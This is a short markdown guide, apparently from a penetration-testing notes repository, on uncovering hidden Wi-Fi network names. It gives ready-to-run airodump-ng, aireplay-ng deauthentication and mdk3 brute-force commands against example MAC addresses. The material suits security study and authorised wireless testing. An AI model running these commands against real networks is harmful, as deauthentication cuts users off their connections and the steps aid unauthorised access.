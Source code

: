 # How to find hidden SSIDs
Hiding SSIDs is a superficial attempt at masking SSIDs from casual users and attackers by making it less visible. 2 methods to get their ESSID, deauth and bruteforcing.
## Deauth
If there are clients connected to hidden networks you can deauth them, then capture the request they send to re-connect which will contain the ESSID / network name. 

Once setup:
Dump networks
```
airodump-ng wlan1mon --band agp -w dump
```
Deauth target MAC:
```
aireplay-ng -0 10 -a B2:C1:3D:3B:2B:A1 -c 02:00:00:00:02:00 wlan1mon
```
## Brute forcing hidden SSID
With `mdk3`, we can either provide a wordlist or specify the length of the SSID so the tool can automatically generate potential SSID names:
```
mdk3 <interface> <test mode> [test_ options]
```
Brute forcing all possible values:
```
mdk3 wlan1mon p -b u -c 1 -t A2:FF:31:2C:B1:C4
```
Brute forcing using a wordlist:
```
mdk3 wlan1mon p -f /opt/wordlist.txt -t D2:A3:32:13:29:D5
```
